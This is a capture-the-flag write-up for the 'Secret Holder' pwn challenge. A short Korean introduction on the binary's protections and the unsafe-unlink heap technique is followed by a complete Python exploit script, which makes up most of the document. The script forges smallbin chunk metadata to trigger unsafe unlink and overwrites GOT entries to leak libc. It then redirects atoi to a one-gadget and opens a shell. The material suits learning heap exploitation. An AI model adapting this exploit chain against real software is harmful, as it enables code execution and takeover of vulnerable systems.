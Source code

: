 Secret Holder 100 (pwn)
=============

### 1. Introduction

| RELRO         | STACK CANARY | NX         | PIE    | RPATH    | RUNPATH    | FILE   |
|---------------|--------------|------------|--------|----------|------------|--------|
| Partial RELRO | Canary found | NX enabled | No PIE | No RPATH | No RUNPATH | secret | 

64 bit binary이며 unsafe unlink에 대해 다시한번 공부할 수 있는 계기가 되었다.
unsafe unlink는 Free된 smallbin chunk의 prev_size와 size를 조작할 수 있고 그위 몇바이트만 바꿀 수 있으면 트리거할 수 있다.
꼭 smallbin 두개가 연속하여 있지 않아도 되며 heap overflow만 발생시키면 가능하다는것을 새겨두어야겠다.

### 2. Exploit
```python
from ntpwn import *

s = process('./secret')
e = ELF('./secret')
l = ELF("/lib/x86_64-linux-gnu/libc.so.6")
b = BP(s)
b.bp('tracemalloc on')
b.bp('c')
b.done()

def keep(size,secret):
    s.sendlineafter('3. Renew secret\n','1')
    s.sendlineafter('Big secret\n', size)
    s.sendafter('l me your secret:',secret)

def wipe(size):
    s.sendlineafter('3. Renew secret\n','2')
    s.sendlineafter('Big secret\n', size)

def renew(size,secret):
    s.sendlineafter('3. Renew secret\n','3')
    s.sendlineafter('Big secret\n', size)
    s.sendafter('l me your secret:',secret)
pause()

keep('3','A')  # huge secret -> 0x7f~~
wipe('3')
keep('3','A') # huge secret -> heap
wipe('3')

keep('1','A')
wipe('1')
keep('2','A')
wipe('1')
keep('1','A')
keep('3','A')

bss = 0x6020b0

renew('2',p64(0x0) + p64(0x21) + p64(bss-0x18) + p64(bss-0x10) + p64(0x20) + p64(0x61a90))
wipe('3')

renew('1',p64(0) + p64(e.got['free']))
renew('2',p64(e.plt['puts']))
renew('1',p64(0) + p64(e.got['atoi']))
wipe('2')
s.recvuntil('3. Huge secret\n')
libc_base = u64(s.recv(6) + "\x00" * 2) - l.symbols['atoi']
print hex(libc_base)
oneshot = libc_base + 0x4526a

keep('2','A')

renew('1',p64(0) + p64(e.got['atoi']))
renew('2',p64(oneshot))

s.sendlineafter('3. Renew secret\n','NEXTLINE')
s.interactive()
```
